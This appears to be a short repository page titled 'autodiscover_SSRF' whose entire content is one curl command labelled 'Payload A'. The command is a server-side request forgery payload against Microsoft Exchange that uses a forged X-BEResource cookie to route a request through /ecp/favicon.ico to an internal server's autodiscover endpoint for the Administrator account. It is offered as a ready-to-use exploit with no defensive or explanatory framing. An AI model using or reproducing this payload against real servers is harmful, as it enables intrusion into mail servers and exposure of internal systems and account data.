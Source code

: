 # autodiscover_SSRF

Payload A

curl -i -s -k -X $'POST' \
    -H $'Host: externaldomain.local' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalservername.domain.local/autodiscover/autodiscover.xml#~1' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>' \
    $'https://pwnstar.pwndefend.com/ecp/favicon.ico'
